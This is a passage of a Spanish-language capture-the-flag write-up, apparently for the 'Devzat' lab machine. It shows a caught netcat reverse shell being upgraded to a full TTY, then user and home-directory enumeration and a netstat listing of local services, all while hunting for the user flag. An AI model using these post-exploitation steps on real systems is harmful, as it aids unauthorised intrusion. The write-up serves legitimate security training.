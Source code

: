 ```console
patrick@devzat:~/pets$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
patrick@devzat:~/pets$ ^Z
zsh: suspended  nc -nlvp 9999
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm
patrick@devzat:~/pets$ export TERM=xterm
patrick@devzat:~/pets$ export SHELL=bash
patrick@devzat:~/pets$ stty rows 43 columns 189
```

Una vez realizado, ya podemos hacer Ctrl+C, Ctrl+L, etc. Veamos si podemos leer la flag de usuario.

```console
patrick@devzat:/home$ whoami && id
patrick
uid=1000(patrick) gid=1000(patrick) groups=1000(patrick)
patrick@devzat:~/pets$ cd /home
patrick@devzat:/home$ ls
catherine  patrick
patrick@devzat:/home$ ls patrick
devzat  go  pets
```

Parece que en el directorio del usuario **`patrick`** no encontramos el archivo que buscamos, 
pero como vimos antes, existe otro usuario llamado **`catherine`**, comprobemos si tiene el archivo.

```console
patrick@devzat:/home$ ls catherine
user.txt
```

Efectivamente, necesitamos convertirnos en **catherine** para poder leer la flag. Podemos ver si existen otros servicios bajo localhost que no hayamos podido listar anteriormente.

```console
patrick@devzat:/home$ netstat -punta
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      882/./petshop       
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8086          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp        0    286 10.10.11.118:43886      10.10.15.113:9999       ESTABLISHED 69555/bash          
tcp        0      1 10.10.11.118:32916      1.1.1.1:53              SYN_SENT    -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8000                 :::*                    LISTEN      881/./devchat       
udp        0      0 127.0.0.1:42865         127.0.0.53:53           ESTABLISHED -                   
```
